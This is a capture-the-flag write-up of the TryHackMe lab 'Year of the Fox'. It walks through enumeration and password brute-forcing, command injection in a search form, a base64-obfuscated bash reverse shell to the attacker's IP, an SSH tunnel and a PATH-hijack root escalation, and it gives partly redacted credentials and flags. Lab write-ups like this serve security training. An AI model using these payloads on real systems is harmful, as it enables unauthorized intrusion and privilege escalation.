


# [[THM] Year of the Fox](https://tryhackme.com/room/yotf)

**Date**: 30/Jul/2020  
**Categories**: [thm](https://github.com/7h3rAm/writeups/search?q=thm&unscoped_q=thm), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [enumerate_proto_http](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_http&unscoped_q=enumerate_proto_http), [exploit_command_injection](https://github.com/7h3rAm/writeups/search?q=exploit_command_injection&unscoped_q=exploit_command_injection), [privesc_env_relative_path](https://github.com/7h3rAm/writeups/search?q=privesc_env_relative_path&unscoped_q=privesc_env_relative_path)  

## Overview
This is a writeup for TryHackMe VM [Year of the Fox](https://tryhackme.com/room/yotf). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


### Killchain


### TTPs
1\. `80/tcp/http/Apache httpd 2.4.29`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_command_injection](https://github.com/7h3rAm/writeups#exploit_command_injection), [privesc_env_relative_path](https://github.com/7h3rAm/writeups#privesc_env_relative_path)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.80 scan initiated Wed Jul 29 19:54:07 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/thm.yotf/10.10.41.240/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/thm.yotf/10.10.41.240/scans/xml/_quick_tcp_nmap.xml 10.10.41.240
Increasing send delay for 10.10.41.240 from 0 to 5 due to 25 out of 82 dropped probes since last increase.
Nmap scan report for 10.10.41.240
Host is up, received user-set (0.21s latency).
Scanned at 2020-07-29 19:54:22 IST for 42s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT    STATE SERVICE     REASON  VERSION
80/tcp  open  http        syn-ack Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -20m00s, deviation: 34m37s, median: -1s
| nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   YEAR-OF-THE-FOX<00>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<03>  Flags: <unique><active>
|   YEAR-OF-THE-FOX<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   YEAROFTHEFOX<00>     Flags: <group><active>
|   YEAROFTHEFOX<1d>     Flags: <unique><active>
|   YEAROFTHEFOX<1e>     Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57972/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24267/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 63864/udp): CLEAN (Failed to receive data)
|   Check 4 (port 42720/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2020-07-29T15:24:57+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-29T14:24:57
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 29 19:55:04 2020 -- 1 IP address (1 host up) scanned in 56.96 seconds

```

2\. We find `80/tcp` to be open and enumerate it further. The webapp enforces authentication due to which we are not allowed to view any pages. We will need to find the credentials for the web app to proceed with this further:  

3\. From the scan results SMB for ports, we find that there are two active users on this machine: `fox` and `rascal`  
``` {.python .numberLines}
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
  User Name   : fox
  Full Name   : fox
  Home Drive  : \\year-of-the-fox\fox
  Dir Drive   : 
  Profile Path: \\year-of-the-fox\fox\profile
  Logon Script: 

S-1-22-1-1001 Unix User\rascal (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

 ============================================= 
|    Getting printer info for 10.10.41.240    |
 ============================================= 
No printers returned.

enum4linux complete on Wed Jul 29 20:18:34 2020

```

4\. We run a password bruteforce scan against the webapp for both usernames and find a hit:  
``` {.python .numberLines}
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.41.240 http-head /

```

  

5\. Upon logging in, we see a webpage with a search text box try out a few queries. Submitting an empty string shows a listing of 3 files. We setup Burp proxy and start enumerating the search functionality further:  

  

  

  

  

6\. We find a way to escape the search input and get command execution on the target machine:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";whoami\n"}

```

  

7\. We use this to triage the file system and find the first web flag file:  
``` {.python .numberLines}
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\"cat ../../../web-flag.txt;\n"}

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    http          Apache httpd 2.4.29
139/tcp   netbios-ssn   Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   netbios-ssn   Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
```
#### Users
``` {.python .numberLines}
ssh: rascal, fox
webapp: rascal
```

\newpage
## Phase #2: Exploitation
1\. We further leverage the command execution vulnerability to get interactive access on the target machine. For this, we first start a local netcat listener and use a bash reverse shell:  
``` {.python .numberLines}
nc -nlvp 4433

POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI2LjE4OS80NDMzIDA+JjE=' | base64 -d | bash \n"}

```

  

  

2\. We get a shell with `www-data` privileges and use it to probe further. From the listing of open ports, we find that the ssh port `22/tcp` is open and accepting connection only on the localhost interface. We can use `socat` to tunnel this port to probe it from our attacking system:  
``` {.python .numberLines}
socat tcp-listen:1337,reuseaddr,fork tcp:localhost:22

```

  

3\. With this, we now have tunneled `localhost:22` to `10.10.41.240:1337` and can now run a ssh password bruteforce for user `fox` on it. After a few minutes we find a hit and can now login:  
``` {.python .numberLines}
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.41.240:1337
ssh fox@10.10.41.240 -p1337

```

  

  

4\. We find the second flag file `/home/fox/user-flag.txt`:  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@year-of-the-fox> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox>  
www-data@year-of-the-fox> uname
Linux year-of-the-fox 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@year-of-the-fox>  
www-data@year-of-the-fox> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
  inet 10.10.41.240  netmask 255.255.0.0  broadcast 10.10.255.255
  inet6 fe80::12:4bff:fe54:f2e0  prefixlen 64  scopeid 0x20<link>
  ether 02:12:4b:54:f2:e0  txqueuelen 1000  (Ethernet)
  RX packets 76192  bytes 8543685 (8.5 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 72416  bytes 14679085 (14.6 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
  inet 127.0.0.1  netmask 255.0.0.0
  inet6 ::1  prefixlen 128  scopeid 0x10<host>
  loop  txqueuelen 1000  (Local Loopback)
  RX packets 6896  bytes 489426 (489.4 KB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 6896  bytes 489426 (489.4 KB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@year-of-the-fox>  
www-data@year-of-the-fox> users
rascal
fox
root
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that we can execute the `/usr/sbin/shutdown` file with `sudo`. Since the target machine doesn't have `strings` installed, we transfer this file to our attacking machine and investigate further. We find a reference to the `poweroff` binary name, which when combined with the fact that `secure_path` is not defined wihtin `/etc/sudoers` (seen in `sudo -l` output), hint that a environment path modification vector could help us escalate privileges:  

  

2\. We copy bash to the local directory, rename it to `poweroff` and modify the `PATH` environment variable to search for file within current directory first. With this change, we then execute `shutdown` file and get elevated privileges:  
``` {.python .numberLines}
cp /bin/bash ./
mv ./bash poweroff
ls -la poweroff /bin/bash
md5sum poweroff /bin/bash
sudo /usr/sbin/shutdown

```

  

  

3\. We see the third flag file `root.txt` but it turns out to be placeholder. After some searching, we find the actual root flag file `.did-you-think-I-was-useless.root`, hidden within user `rascal`'s home directory:  
``` {.python .numberLines}
cat /home/rascal/.did-you-think-I-was-useless.root

```

  

  


\newpage
## Learning/Recommendation
* The webapp exposed a search field which was vulnerable to command injection. This allowed the attacker to gain interactive access of the target machine. It is advised to follow a secure development lifecycle for critical production web applications.
* The `shutdown` binary was vulnerable to a path expansion attack which allowed the atatcker to gain elevated privileges.

## Loot
### Credentials
``` {.python .numberLines}
ssh: fox/1234...
webapp: rascal/l...
```
### Flags
``` {.python .numberLines}
/var/www/web-flag.txt: THM{Nzg2ZWQwYWUwN2UwOTU3N............
/home/fox/user-flag.txt: THM{Njg3NWZhNDBjMmNlMzNkM............
/home/rascal/.did-you-think-I-was-useless.root: THM{ODM3NTdkMDljYmM4.................
```

## References
[+] <https://tryhackme.com/room/yotf>  
[+] <https://muirlandoracle.co.uk/2020/05/30/year-of-the-fox-write-up/>  
[+] <https://www.cybergoat.co.uk/writeup/Year-of-Fox-TryHackMe/>  
[+] <https://blog.tryhackme.com/year-of-the-fox-official-write-up/>  
